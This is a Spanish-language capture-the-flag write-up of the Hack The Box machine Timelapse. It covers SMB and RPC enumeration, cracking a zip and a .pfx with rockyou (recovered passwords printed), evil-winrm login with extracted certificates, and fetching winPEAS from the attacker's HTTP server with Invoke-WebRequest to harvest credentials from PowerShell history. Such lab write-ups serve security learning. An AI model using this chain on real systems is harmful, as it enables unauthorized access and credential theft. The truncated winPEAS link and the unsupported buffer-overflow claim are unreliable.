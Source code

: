 ```yaml
---
layout: post
author: Sergio Salgado
---
```


# [](#header-1)Maquina Timelapse

## [](#header-2)Indice
- <a href="#introduccion">Introduccion</a>
- <a href="#reconocimiento">Reconocimiento</a>
- <a href="#escaneo">Escaneo</a>
  - <a href="#gain_access">Gain Access</a>
  - <a href="#privilege_scalation">Escalamiento de privilegios</a>

## [](#header-2)<a id="introduccion">Introduccion</a>
  
  Esta maquina es una de las faciles que ofrece HTB (hack the box), para ir comenzando en el mundo del pentest, es bueno ir documentando los pasos que se han tomado para lograr capturar las flags de objetivo de las maquinas

## [](#header-2)<a id="about_monero">Reconocimiento</a>

### [](#header-3)PING
En esta etapa, verificamos la conectividad con la maquina, escaneo de puertos y reconocimiento de servicios activos en los servicios.
**PING** Comunmente se utiliza un ping para verificar la comunicacion con la maquina a la que se realizara la prueba, pero el ping en linux esta en un loop infinito, hasta que se corta el proceso del comando. Es por ello que utilizaremos un ping discreto:

```s
ping -c 2 10.10.11.152
#ttl=63 o 64 significa que la maquina es linux
#ttl=127 o 128 significa que es windows
```
![Ping discreto](/assets/images/Timelapse/ping_discreto.png)

## [](#header-2)<a id="escaneo">Escaneo</a>

### [](#header-3)NMAP
**NMAP** Esta herramienta es utilizada por los administradores de redes para hacer un escaneo rapido y dependiendo de sus parametros de configuracion, profundizar en la busqueda de informacion. 
*Nota* Es importante no depender de esta herramienta ya que el escaneo es agresivo y en un entorno controlado, se pueden activar alarmas de intruision.
Para esta maquina, utilizaremos el siguiente comando:

```s
nmap -vvv -Pn -sCV -T4 -p0-65535 --reason -oN Timelapse.nmap 10.10.11.152
# -T4 o T5 para la velocidad de escaneo 
# -p0-65535 para una búsqueda en todos los puertos
# -vvv para visualizar las tareas que va completando(Esto es útil, por si llegamos a reconocer algún servicio explotable)
# -p0-65535 Para establecer el rango de puertos de busqueda
# -sCV es la combinacion de los comandos sC que es para el escaneo con scripts por default de nmap y sV que es para sondear los puertos abiertos
# -oN es la salida en el formato que establezcamos que comunmente es .nmap o podria ser en un .xml
# -O es para la deteccion del Sistema Operativo 
```

![nmap output](/assets/images/Timelapse/nmap_out.png)

Buscaremos si existen vulnerabilidades registradas en el sistema con la herramienta nmap y los scripts específicos de análisis para el protocolo samba:
La ruta especifica y filtrado del servicio que usaremos para la búsqueda y visualizarlos es:

```s
ls /usr/share/nmap/scripts | grep smb-vuln
```

![nmap specific search](/assets/images/Timelapse/nmap_specific.png)

El comando nos muestra que es vulnerable, y se cuenta con un CVE, con el cual habría que desarrollar una herramienta donde se use el buffer overflow y ejecutar un exploit diseñado para el sistema operativo.

## [](#header-2)<a id="gain_access">Gain Access</a>

### [](#header-3)Domain integration
**Integracion en dominio del servidor** Despues del escaneo, es posible descubrir algunos dominios del servidor, para poder establecer una comunicacion correcta con los servicios nos integraremos con los dominios encontrados. Modificando el archivo que se encuentra en /etc/hosts para poder editarlo y relacionar la IP de la maquina con el dominio encontrado. 
*Nota* A lo largo de la prueba, se pueden encontrar mas dominios asociados a la ip y sera necesario regresar a este archivo para modificarlo.

```s
nano /etc/hosts
```
![Integracion de maquina en el dominio](/assets/images/Timelapse/domain_integration.png)

Notamos que el puerto 445 esta expuesto, normalmente usado para el servicio smb de Windows y a continuacion utilizaremos otras herramientas para verificarlo.

Ocuparemos la herramienta enum4linux para obtener algunos usuarios por el servicio de smb

```s
enum4linux -a 10.10.11.152
```

![enum4linux output](/assets/images/Timelapse/enum_view.png)

Con el siguiente comando, descubriremos algunos directorios compartidos que no tienen contrasenas

```s
smbclient --no-pass --list=10.10.11.152
```

![smb no pass output](/assets/images/Timelapse/smb_output1.png)

Para conectarnos al rpc y obtener mas informacion, utilizaremos el siguiente comando y en la imagen adjunta hay otros comandos que podrian ser de ayuda en la recopilacion de informacion.

```s
rpcclient -U "" -N 10.10.11.152
```

![rpc output](/assets/images/Timelapse/rpc_output.png)

Aplicaremos el siguiente comando para intentar establecer un acceso a un directorio en el que no tenemos acceso

```s
smbclient -U 'ANONYMOUS LOGON' -N \\\\10.10.11.152\\Share
```

Obtuvimos acceso, y ahora podemos descargar un archivo .zip con contrasena y dentro que un archivo cifrado dentro del directorio Dev
- Usamos el comando get para descargar el archivo .zip 

![Archivos descargados](/assets/images/Timelapse/files_downloaded1.png)

Usaremos una herramienta llamada frackzip, la cual se utiliza para descomprimir archivos zip, y para abrirlos por fuerza bruta, en este caso usaremos una wordlist que tiene integrado Kali:

```s
sudo fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt winrm_backup.zip”
```

![frackzip usage](/assets/images/Timelapse/fcrackzip.png)
La contraseña encontrada es supremelegacy, al encontrar contraseñas que parecen haber sido creadas por personas y no por algún algoritmo, nos damos cuenta de que la complejidad de las contraseñas no es alta.

Para romper con la seguridad de estos archivos, utilizaremos una herramienta obtenida de:
https://github.com/crackpkcs12/crackpkcs12.git
Para su instalación, utilizaremos los comandos:

```s
sudo apt install libssl-dev
sudo ./configure
make    
```

El comando que utilizaremos, para volver a usar la wordlist, es:

```s
crackpkcs12 -d /usr/share/wordlists/rockyou.txt ./legacyy_dev_auth.pfx
```

![crackpkcs12 usage](/assets/images/Timelapse/crackpkcs12.png)

La contraseña encontrada es thuglegacyy, esta la usaremos para ingresar en el servicio y generar una llave privada llamada priv.key y cert.crt

El comando que utilizaremos para establecer la conexion con el servicio, utilizar las credenciales obtenidas y despues ingresar la contrasena del archivo .pfx que anteriormente obtuvimos, por medio de openssl es:

```s
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out prv.key
```

![Openssl example](/assets/images/Timelapse/openssl_prv.png)


Después será necesario generar un certificado cl e igualmente lo podemos generar con openssl

```s
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out cert.crt
#ingresamos nuevamente la contraseña thuglegacyy
```

A continuacion, estableceremos la coneccion, usando nuestra prv.key y el certificado cert.crt con:

```s
evil-winrm -i 10.10.11.152 -S -c cert.crt -k prv.key -p -u
``` 

![Evil win output](/assets/images/Timelapse/evil-win.png)

Una vez dentro, navegamos al Escritorio, y con el comando 'type' podremos leer la flag 

![First flag](/assets/images/Timelapse/flag1.png)

## [](#header-2)<a id="privilege_scalation">Escalamiento de privilegios</a>
Despues del paso anterior, utilizaremos la siguiente herramienta para automatizar un poco el proceso de recopilacion de informacion y poder escalar privilegios mas rapido. ases/download/20220410/winPEASx64.exe

Abrimos un servicio http para poder descargarnos el archivo desde la maquina

```py
python3 -m http.server 80
```

![Python http server](/assets/images/Timelapse/python_http.png)

Con PowerShell, ejecutamos el siguiente comando para hacer la descarga

```powershell
powershell invoke-WebRequest -UseBasicParsing 10.10.14.153/winPEASx64.exe -OutFile winPEASx64.exe
```

![Uploading winPEAS tool](/assets/images/Timelapse/winpeas64.png)

Ejecutamos la herramienta y ahora sabemos que en el servicio de PowerShel, que se encuentra en la siguiente ruta, es vulnerable y quizas aqui encontremos credenciales para escalar privilegios.

```s
Users/legacyy/AppData/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt
``` 

Nos descargamos el archivo de historia de comandos y lo visualizamos

![Powershell history](/assets/images/Timelapse/pwshell_history.png)

Historial de comandos, tambien hay algo interesante, en la parte de as a plain text nos muestra una contrasena y un usuario en texto plano

![Openning Powershell history](/assets/images/Timelapse/openning_pwshell_history.png)

LDAP es un protocolo de acceso para los servicios del directorio activo, y es el que utilizaremos para continuar navegando en la maquina intentando escalar los privilegios

![LDAP connection](/assets/images/Timelapse/ldap_conection.png)

Leemos la ultima bandera, con la contrasena que hemos obtenido; que igualmente se encuentra en el escritorio y habremos terminado la maquina
